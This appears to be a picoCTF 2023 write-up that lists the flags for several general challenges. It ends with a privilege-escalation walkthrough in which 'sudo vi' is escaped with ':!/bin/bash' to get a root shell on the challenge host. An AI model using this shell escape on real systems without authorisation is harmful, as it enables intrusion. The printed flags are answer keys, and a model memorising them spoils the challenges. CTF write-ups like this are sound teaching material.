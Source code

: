 # picoCTF 2023
###### tags: `CTF`

## General
### Rules 2023

rule -> other rules -> ending of section 1

`picoCTF{h34rd_und3r5700d_4ck_cba1c711}`

### repetitions

base64 many times

`picoCTF{base64_n3st3d_dic0d!n8_d0wnl04d3d_a2d1b8b6}`

### money-ware

[ref](https://www.cnbc.com/2017/06/28/ransomware-cyberattack-petya-bitcoin-payment.html)

`picoCTF{Petya}`

### chrono

```bash
grep -r "pico" / 2>/dev/null
```

found flag is at `/etc/crontab`

`picoCTF{Sch3DUL7NG_T45K3_L1NUX_88865742}`

### Permissions

[Use vi/vim for privilege escalation](https://web-wilke.de/use-vi-vim-for-privilege-escalation/)

use `sudo -l` to view permissions. found we can use `vi` with root permission

```
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```

use `sudo vi` command to use root previlege. then use `:!/bin/bash` to spawn shell

```bash
root@challenge:/home/picoplayer# id
uid=0(root) gid=0(root) groups=0(root)
```

we have successfully privilege escalation and get root identity
